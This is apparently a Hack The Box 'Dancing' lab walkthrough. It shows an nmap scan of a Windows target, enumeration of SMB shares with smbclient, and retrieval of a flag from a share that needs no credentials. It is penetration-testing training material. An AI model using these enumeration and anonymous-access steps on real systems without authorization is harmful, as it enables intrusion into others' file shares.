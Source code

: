 # Dancing
#startingpoint
#veryeasy 
#smb

Firstly, we start by opening a VPN connection and launching the VM on HTB.
### Reconnaissance
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there are some open ports, after performing a little of research we realize that this ports corresponds to a machine which is likely to be running a SMB service.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-16 11:31 CET
Nmap scan report for 10.129.64.157
Host is up (0.068s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
### SMB Service

First of all we need to see all the shares that are inside the SMB server so we run `smbclient -L $TARGET`
```
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
```
Now we need to test all of them one by one in order to see if there is one which allow us to enter without the need of credentials. After testing all of them we realize that the last one doesn't need credentials so we enter using the command `smbclient  //${TARGET}/WorkShares`

Once inside we check the available information, where we will find the flag that we are looking for:
```
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

		5114111 blocks of size 4096. 1732664 blocks available
smb: \> ls Amy.J\ 
  .                                   D        0  Mon Mar 29 11:08:24 2021
  ..                                  D        0  Mon Mar 29 11:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 12:00:37 2021

		5114111 blocks of size 4096. 1732664 blocks available
smb: \> ls James.P\
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

		5114111 blocks of size 4096. 1732664 blocks available

```

To retrieve the flag file we run this command `smb: \> get James.P\flag.txt`

